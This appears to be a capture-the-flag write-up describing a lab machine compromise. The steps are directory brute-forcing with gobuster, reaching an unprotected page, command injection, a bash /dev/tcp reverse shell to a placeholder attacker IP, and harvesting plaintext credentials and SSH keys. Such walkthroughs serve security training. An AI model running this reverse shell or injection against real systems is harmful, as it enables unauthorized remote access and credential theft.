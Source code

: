 ## Description
<p align="center">
<image src="https://user-images.githubusercontent.com/78603128/119040663-43719300-b9e8-11eb-93b9-9084d21a8b85.png"/>
</p>
 
## Hands on

First , we slap the ip into our browser to check if port 80(common web server) is up and yes it is !
<p align="center">
<image src="https://user-images.githubusercontent.com/78603128/119142345-fa1d5400-ba78-11eb-97a9-5e0b27c4618e.png"/>
</p>

look like a credential is required

lets try <a href="https://tools.kali.org/web-applications/gobuster">gobuster(CLI)/dirbuster(GUI)</a> to brute force the web directory for hidden files

<p align="center">
<image src="https://user-images.githubusercontent.com/78603128/119142807-7879f600-ba79-11eb-8cc8-0236aca6441f.png"/>
</p>



Note : <br/>
<ul>
<li>dir specify brute force the directory </li>
<li>-u specify the web browser url</li>
<li>-w specify the dictionary path for the attack</li>
<li>-t specify how many thread to be used for the attack</li> 
<li>-o specify output file name</li>
</ul>

and we found the hidden directory named :

"home.php" 

<p align="center">
<image src="https://user-images.githubusercontent.com/78603128/119143134-d8709c80-ba79-11eb-85fb-d91fe7fb960f.png"/>
</p>

guess what ? who need credentials when you can access the page without one ?

"validate.php" , Look like incorrect credentials goes here

<p align="center">
 
<image src="https://user-images.githubusercontent.com/78603128/119142989-b37c2980-ba79-11eb-82ae-a0ab52a03f25.png"/>

 </p>
 
Moving on , we can check if the machine is linux by using  "uname -a" command

<p align="center">
<image src="https://user-images.githubusercontent.com/78603128/119144800-98121e00-ba7b-11eb-87be-10057beb2d04.png"/>
</p>

and yess , now slap reverse shell command into the input 

<p align="center">
<image src="https://user-images.githubusercontent.com/78603128/119146838-9cd7d180-ba7d-11eb-8f00-ffd68cb68676.png"/>
</p>
 
```
 bash -c 'exec bash -i &>/dev/tcp/$YOUR IP/$PORT <&1'
 
```

remember to start a listener on the port you input
<br/>
<br/>

And within few seconds , we will get a reverse shell and able to run as **www-data** !


<image src="https://user-images.githubusercontent.com/78603128/119147026-cabd1600-ba7d-11eb-88cc-a69eadb0ac62.png"/>


now we search for the key , key_rey_key seems sus and by trying strings command we found the key


<image src="https://user-images.githubusercontent.com/78603128/119148594-38b60d00-ba7f-11eb-8a24-17a264bc10d0.png"/>


and we are lucky to found the user credentials in plain text inside the **validate.php** code
<br/>

<image src="https://user-images.githubusercontent.com/78603128/119148927-92b6d280-ba7f-11eb-8a86-b8d60f193eff.png"/>

switch user to charlie and we got the flag , oh yeah.. you cant switch user here..
<br/>

<image src="https://user-images.githubusercontent.com/78603128/119149250-ede8c500-ba7f-11eb-94b8-21823441721b.png"/>

looking around charlie directory , we found RSA private and public key to login via SSH !
<br/>

<image src="https://user-images.githubusercontent.com/78603128/119149549-36a07e00-ba80-11eb-9cd8-c3f5e9b77a83.png"/>






